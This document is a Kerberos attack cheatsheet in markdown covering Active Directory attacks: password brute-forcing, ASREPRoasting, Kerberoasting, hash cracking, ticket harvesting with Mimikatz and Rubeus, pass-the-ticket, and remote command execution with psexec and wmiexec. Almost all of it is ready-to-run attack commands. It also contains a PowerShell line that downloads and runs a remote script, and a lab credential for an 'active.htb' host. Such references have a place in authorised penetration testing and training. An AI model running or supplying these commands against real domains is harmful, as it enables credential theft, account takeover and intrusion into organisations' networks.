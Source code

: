 # Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:

```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### SPN Service Principal Name Overview&#x20;

* The structure of an SPN consists of three (3) main parts: **Service Class**: the service type, i.e., _SQL, Web, Exchange, File,_ etc., and the **Host** where the service is usually running in the format of **FQDN** _(Fully Qualified Domain Name)_and **port number**.&#x20;
*   For example, below, the Microsoft SQL service runs on the **`dcorp-mgmt`** host on port 1443.

    The SPN is **`MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433`**

## Kerberoasting

* Great reading:
* [https://specterops.gitbook.io/ghostpack/rubeus/roasting](https://specterops.gitbook.io/ghostpack/rubeus/roasting)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
python3 GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

📌[**HackTricks Tip:**](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast) _If you find this **error** from Linux: **Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)** it because of your local time, you need to synchronize the host with the DC: **ntpdate \<IP of DC>**_

With [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```
#Invoke-Kerberoast.ps1 IEX Method
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
#or load this way
Import-Module .\invoke-kerberoast.ps1
#basic command 
Invoke-Kerberoast -Domain active.htb -OutputFormat Hashcat | fl
#verbose command 
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

* Can also acomplish this in native powershell if you have a session&#x20;

```
Add-Type -AssemblyName System.IdentityModelNew -ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Service class\Hostname:Port"
```

Cracking with dictionary of passwords:

```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### With Invoke-Mimikatz.ps1

```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:

```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus](https://github.com/Zer1t0/Rubeus) with brute module
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)
* [tickey](https://github.com/TarlogicSecurity/tickey)
* [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter)
